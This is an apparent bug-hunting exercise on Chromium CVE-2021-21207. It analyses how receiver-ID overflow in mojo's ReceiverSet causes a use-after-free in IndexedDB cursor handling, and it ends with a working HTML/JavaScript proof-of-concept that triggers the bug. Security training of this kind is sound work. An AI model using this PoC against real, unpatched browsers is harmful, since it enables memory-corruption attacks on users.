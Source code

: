 # Exercise 4

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21207
I sugget you don't search any report about it to prevents get too much info like patch.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1185732

</details>

--------

### Set environment

after fetch chromium
```sh
git reset --hard 86a37b3c8fdc47b0ba932644fd61bbc791c82357
```



### Related code

mojo/public/cpp/bindings/receiver_set.h

read this [doc](https://chromium.googlesource.com/chromium/src/+/668cf831e91210d4f23e815e07ff1421f3ee9747/mojo/public/cpp/bindings#Receiver-Sets) get info about Receiver Sets

### Do it
Do this exercise by yourself, If you find my answer have something wrong, please correct it.


---------

<details>
  <summary>My answer</summary>

  This function only checks whether the ID is equal to 0, but does not judge whether the ID is reused.so if the has same id inset to container,will free the previous.
  ```c++  
  ReceiverId AddImpl(ImplPointerType impl,
                     PendingType receiver,
                     Context context,
                     scoped_refptr<base::SequencedTaskRunner> task_runner) {
    DCHECK(receiver.is_valid());
    ReceiverId id = next_receiver_id_++;
    DCHECK_GE(next_receiver_id_, 0u);
    auto entry =
        std::make_unique<Entry>(std::move(impl), std::move(receiver), this, id,
                                std::move(context), std::move(task_runner));
    receivers_.insert(std::make_pair(id, std::move(entry)));
    return id;
  }
  ```
  If we add id to maxsize,then extra add 1,will overflow.Insert same id ,will free previous , then we can use the freed pointer ,cause UAF.
  ```c++
  namespace mojo {

  using ReceiverId = size_t;

  template <typename ReceiverType>
  struct ReceiverSetTraits;
  ```
  Where can cause UAF? the poc  use cursor_impl pointer , cursor_impl_ptr->OnRemoveBinding
  ```c++
  mojo::PendingAssociatedRemote<blink::mojom::IDBCursor>
IndexedDBDispatcherHost::CreateCursorBinding(
    const url::Origin& origin,
    std::unique_ptr<IndexedDBCursor> cursor) {
  DCHECK_CALLED_ON_VALID_SEQUENCE(sequence_checker_);
  auto cursor_impl = std::make_unique<CursorImpl>(std::move(cursor), origin,
                                                  this, IDBTaskRunner());
  auto* cursor_impl_ptr = cursor_impl.get();
  mojo::PendingAssociatedRemote<blink::mojom::IDBCursor> remote;
  mojo::ReceiverId receiver_id = cursor_receivers_.Add(
      std::move(cursor_impl), remote.InitWithNewEndpointAndPassReceiver());
  cursor_impl_ptr->OnRemoveBinding(
      base::BindOnce(&IndexedDBDispatcherHost::RemoveCursorBinding,
                     weak_factory_.GetWeakPtr(), receiver_id));
  return remote;
}
  ```
**POC**
```html
<html>
    <script>
            var db;
            var first = 1;
            const indexedDB = window.indexedDB || window.webkitIndexedDB ||  window.mozIndexedDB;
            const request = indexedDB.open("aaa", 2);
            request.onsuccess = (e) => {
                db = e.target.result;
                console.log("success");
            };
            request.onupgradeneeded = (e) => {
                console.log("upgrade");
                db = e.target.result;
                if(!this.db.objectStoreNames.contains("dd2")){
                    this.store = this.db.createObjectStore("dd2", { keyPath: 'key'});
                }
            }
            request.onerror = (e) => {console.log('Can not open indexedDB', e);};
            const sleep = (timeountMS) => new Promise((resolve) => {
                setTimeout(resolve, timeountMS);
            });
            async function f(){
                console.log("in f")
                if(first==1){
                    first = 0;
                    await sleep(10000);
                    a = db.transaction(["dd2"],'readwrite');
                    b = a.objectStore("dd2");
                    c = b.openCursor();
                }
                var transaction = db.transaction(["dd2"],'readwrite');
                var objectstore = transaction.objectStore("dd2");
                objectstore.add({"key":1});
                for(var i =0;i<0x500;i++) {
                    var a1 = objectstore.openCursor(); //1
                }
            }
            var a;
            var b;
            var c; // c will hold cursor which id = 0
            f();
            for (var i =0 ;i<1000;i++){
                setTimeout(f,10000+1000*i)//when function f end,0x500 cursor in receivers_ will be removed to avoid oom
            }


    </script>
</html>
```

</details>

--------
